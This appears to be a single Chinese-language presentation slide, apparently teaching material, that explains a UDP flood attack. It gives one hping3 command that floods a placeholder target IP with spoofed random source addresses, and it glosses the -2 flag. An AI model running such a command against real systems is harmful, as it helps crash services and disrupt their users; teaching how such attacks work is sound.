

# UDP洪水攻击
发送UDP数据包造成服务器崩溃。
hping3 -2 –flood target-IP –rand-source
-2：指定发包模式为UDP模式